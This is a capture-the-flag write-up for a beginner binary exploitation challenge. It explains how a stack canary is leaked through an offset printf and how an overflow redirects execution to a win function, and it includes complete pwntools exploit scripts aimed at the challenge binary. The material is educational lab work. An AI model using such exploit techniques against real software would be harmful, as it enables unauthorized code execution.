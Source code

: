 ```yaml
---
title: "Quack Quack 🦆 - Stack Canary Exploit Writeup"
tags: [CTF, binary exploitation, stack canary, ret2win, pwn]
---
```


# Quack Quack 🦆

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm.

**Quack Quack**, it's time to face the Duck!

## 📚 Table of Contents

- [Initial Inspection 🕵️](#initial-inspection-%EF%B8%8F)
- [Key observation 🔍](#key-observation-)
- [Vulnerabilities 🧠](#vulnerabilities-)
- [Stack Overflow Explained 🧵](#stack-overflow-explained-)
- [Stack layout (simplified) 📌](#-stack-layout-simplified-)
- [Full exploit 🎯](#full-exploit-)
- [Conclusion 🧠](#conclusion-)

## Initial Inspection 🕵️

First we can check the protections enabled on the binary:

![image](https://github.com/user-attachments/assets/632ab392-d266-4b5b-8342-2e543a6702e0)

We can see that there is a canary. Then, in Ghidra:

![image](https://github.com/user-attachments/assets/ab52d254-fd1b-4f6b-8f73-2976fce00e0d)

## Key observation 🔍

We can see that in the first input, we must put "Quack Quack ", otherwise the binary displays "Where are your Quack Manners?!" and exit.

Four interesting lines here:
- `read(0, &local_88, 0x66);` → reads 102 bytes into the buffer
- `pcVar1 = strstr((char *)&local_88, "Quack Quack ");` → finds the position of our marker string
- `printf("Quack Quack %s, ready to fight the Duck?\n\n> ", pcVar1 + 0x20);` → prints data starting 32 bytes after our string (leak!)
- `read(0, &local_68, 0x6a);` → overflow is possible here (stack write past the buffer)

## Vulnerabilities 🧠

This 0x20 offset lets us leak data from the stack, starting 0x20 bytes after our "Quack Quack ", which helps us reach part of the canary.

Let's try to push a string with a specific length, and "Quack Quack " at the very end: 

- 0x66 => 102 in decimal
- "Quack Quack " => 12 characters

After some debugging with gdb, I saw that I needed exactly 89 + 12 characters to reach the canary:

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")
```

![image](https://github.com/user-attachments/assets/dcc251ad-8d84-4e01-8e58-7bc934893c4f)

Ok, now we leaked the canary, we're able to overwrite RIP and take control of the win function, "duck_attack".

## Stack Overflow Explained 🧵

Why does the second read() allow us to overwrite the stack canary and return address?

Let’s take a closer look at the vulnerable function:

```
read(0, &local_88, 0x66); // First read (102 bytes)
...
read(0, &local_68, 0x6a); // Second read (106 bytes) - the overflow
```

## Stack layout (simplified) 📌

Here’s how the local variables are laid out on the stack:

```
|---------------------| <- higher address
|    local_88         |  ← 120 bytes total buffer (15 × 8 bytes)
|---------------------|
|     local_10        |  ← stack canary
|---------------------|
|     saved RBP       |
|---------------------|
|     return address  | <- lower address
```
The stack grows downward in memory (higher → lower addresses)

Now, look at the second read:

```
read(0, &local_68, 0x6a); // 106 bytes
```

We're writing **106 bytes** starting from `&local_68`, which is **not the start** of the buffer — it's **already 32 bytes down** (because `local_88` to `local_68` spans 4 × 8 bytes = 32 bytes).

So how much space is left?
- Total buffer size = 120 bytes
- Offset to local_68 = 32 bytes
- Remaining space = 120 - 32 = 88 bytes
- Data written = 106 bytes
    → Overflow of 18 bytes


![image](https://github.com/user-attachments/assets/d49253e1-4c63-4377-8590-72eb7080e0fa)

The win function, "duck_attack", located at the address "0x0040137f" **(NO PIE)**

## Full exploit 🎯

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")

payload2  = b"A" * 88
payload2 += p64(canary_val)
payload2 += p64(0)
payload2 += p64(0x0040137f) # address of duck_attack()

p.sendafter(b'> ', payload2)

p.interactive()
```
(**More polished exploit here: [exploit.py](https://github.com/notagain-pwn/hackthebox/blob/main/CTF/Cyber%20Apocalypse%202025/pwn/Quack%20Quack/exploit.py)**)

![image](https://github.com/user-attachments/assets/76a2911b-254b-4b15-8c70-a74796145322)

Pwned! 🦆🔥

## Conclusion 🧠

By abusing a format-based leak and a stack canary bypass, we successfully redirected execution to the `duck_attack` function and defeated the cursed villagers. 
 
Sir Alaric wins again — without harming a single duck. 🦆✨

Final result: a clean ret2win exploit using stack leak, canary bypass, and precise buffer control — all thanks to a duck 🦆

🔙 [Back to Cyber Apocalypse 2025 Writeups](../../)
